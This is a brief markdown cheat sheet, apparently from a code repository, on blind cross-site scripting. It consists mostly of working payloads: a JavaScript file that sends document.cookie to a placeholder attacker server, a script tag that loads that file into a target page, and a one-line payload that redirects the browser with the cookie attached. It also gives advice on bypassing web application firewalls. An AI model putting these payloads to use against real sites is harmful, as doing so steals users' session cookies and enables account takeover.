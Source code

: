 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js

var request = new XMLHttpRequest();<br/>
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);<br/>
request.send()<br/>

### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>

